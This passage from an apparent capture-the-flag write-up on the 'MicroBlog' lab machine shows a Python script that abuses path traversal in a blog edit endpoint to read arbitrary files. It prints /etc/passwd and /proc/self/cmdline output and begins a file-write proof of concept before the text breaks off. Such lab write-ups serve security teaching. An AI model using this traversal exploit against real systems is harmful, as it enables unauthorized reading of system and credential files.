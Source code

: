     # create blog
    resp = sess.post("http://app.microblog.htb/dashboard/", data={"new-blog-name": token})

    # file read
    resp = sess.post(f"http://microblog.htb/edit/", 
                     data={"id": f"../../../../../../{file}", "txt":"0xdf"}, 
                     headers={"Host": f"{token}.microblog.htb"},
                     allow_redirects=False)
    data = re.search(r'const.md = "<div class = \\".+?\\">(.*?)<\\/', resp.text, re.DOTALL).group(1)
    print(bytes(data, 'utf-8').decode('unicode_escape'))



The result allows me to request files:



    oxdf@hacky$ python file_read.py /etc/passwd
    root:x:0:0:root:\/root:\/bin\/bash
    daemon:x:1:1:daemon:\/usr\/sbin:\/usr\/sbin\/nologin
    ...[snip]...
    cooper:x:1000:1000::\/home\/cooper:\/bin\/bash
    redis:x:103:33::\/var\/lib\/redis:\/usr\/sbin\/nologin
    git:x:104:111:Git Version Control,,,:\/home\/git:\/bin\/bash
    messagebus:x:105:112::\/nonexistent:\/usr\/sbin\/nologin
    sshd:x:106:65534::\/run\/sshd:\/usr\/sbin\/nologin
    _laurel:x:997:997::\/var\/log\/laurel:\/bin\/false
    oxdf@hacky$ python file_read.py /proc/self/cmdline
    php-fpm: pool www



#### File Write POC

I'll find most attempts to write inside the current web directory fail.
There is one directory that must be writable, and that's `/content`.
Trying to visit `/content` on a microblog site returns 403:

![](/img/image-20230515150546024.png)

I know the site has to be able to write files in this folder. I'll try
to write there with a request like:

